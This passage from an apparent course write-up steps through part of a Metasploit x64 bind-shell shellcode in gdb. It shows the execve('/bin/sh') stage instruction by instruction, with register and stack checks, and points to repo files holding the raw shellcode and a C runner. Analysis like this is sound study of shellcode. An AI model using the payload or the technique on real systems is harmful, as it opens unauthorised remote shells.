As this secion is not debugged, let's place a breakpoint at +49, just after the loop, and `continue` to start next section:
```asm
(gdb) b *0x0000555555558091
Breakpoint 3 at 0x555555558091
(gdb) c
Continuing.
Breakpoint 3, 0x0000555555558091 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555808d <+45>:	syscall 
   0x000055555555808f <+47>:	jne    0x555555558087 <code+39>
=> 0x0000555555558091 <+49>:	push   0x3b
**_REMOVED_**
End of assembler dump.
(gdb) 
```
#### Section 4: `sys_execve`
The command to execute is `/bin/sh` (this been guessed from the **`rbx,0x68732f6e69622f`** hex value checked before. Ad from the function definition:
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```
Values for registers have to be:
- RAX : "0x3b" for the syscall number
- RDI : @ for the `/bin/sh` string
- RSI : Pointer to the address containing the address for `/bin/sh` string
- RDX : NULL as no environment parameters are used

In the code, the RAX is initialized with "0x3b" for the syscall, RDX is NULLed, then `/bin/sh/` is placed in the RBX register to be pushed into the stack. At this point, RDI gets the value of RSP to point to the string. As the Stack Technique is used, now a NULL is pushed to the stack and then, the RDI register that contains the address of the string.
Let's place a breakpoint just before the syscall and review all registers and stack that have the correct and expected values:
```asm
(gdb) b *0x00005555555580a8
Breakpoint 4 at 0x5555555580a8
(gdb) c
Continuing.
Breakpoint 4, 0x00005555555580a8 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x0000555555558091 <+49>:	push   0x3b
   0x0000555555558093 <+51>:	pop    rax
   0x0000555555558094 <+52>:	cdq    
   0x0000555555558095 <+53>:	movabs rbx,0x68732f6e69622f    <== /bin/sh,0x00
   0x000055555555809f <+63>:	push   rbx                     
   0x00005555555580a0 <+64>:	mov    rdi,rsp                 <== RDI <- @/bin/sh
   0x00005555555580a3 <+67>:	push   rdx                     <== 2nd NULL push
   0x00005555555580a4 <+68>:	push   rdi                     <== @ of /bin/sh on the stac
   0x00005555555580a5 <+69>:	mov    rsi,rsp                 <== RSI <- @@ /bin/sh
=> 0x00005555555580a8 <+72>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
Registers values are:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x3b                59
rdi            0x7fffffffe748      140737488349000
rsi            0x7fffffffe738      140737488348984
rdx            0x0                 0
(gdb) 
```
Let's confirm that RDI and RSI point to the right addresses, and that the stack contains the right data on it:
- RDI points to the string
```asm
(gdb) x/s $rdi                     <== Value of RDI points to the string
0x7fffffffe748:	"/bin/sh"
(gdb) 
```
- RSI points to the address of the stack where the address for the string is
```asm
(gdb) info registers rsi
rsi            0x7fffffffe738      140737488348984   <== Value of RSI
(gdb) x/xg $rsi
0x7fffffffe738:	0x00007fffffffe748              <== Contents of memory pointed by RSI
                                                      == Is the address containing the addres
                                                      == of /bin/sh
(gdb) x/s 0x00007fffffffe748                         <== Points to the string :)
0x7fffffffe748:	"/bin/sh"
(gdb) 
```
- The stack has the expected data on it:
```asm
(gdb) x/3xg $rsi
0x7fffffffe738:	0x00007fffffffe748	0x0000000000000000    <== @@/fin/sh and NULL
0x7fffffffe748:	0x0068732f6e69622f                         <== /bin/sh string
(gdb) 
```
Everything is looking good! Time to `stepi` into the syscall

#### The End Section
Ok, all looks as it was expected. After `stepi` into the syscall, the shell will be spawned in our `netcat` session that we had to open to continue debugging in the previous sections:
```asm
(gdb) stepi
process 1287 is executing new program: /usr/bin/dash
(gdb) 
```
With the expected results:

<img src="https://galminyana.github.io/img/A053_Shellcode_End.png" width="75%" height="75%">

### Thoughts
---
As commented before, the only question from this diseection, is where are the 8 bytes for the **sockaddr** struct that have to be NULL. They haven't been placed into the stack, not making the struct to be properly filled.

After some research, i didnt come with any real conclusion. Just i can assume, that the **bzero** is not really checked by the syscall by the type of connection that's being established.

### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_03.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_03.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/shell_bind_tcp_random_port` shellcode.
- [Shellcode_03.txt](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Shellcode_03.txt) : The rax shellcode in hex into a text file.



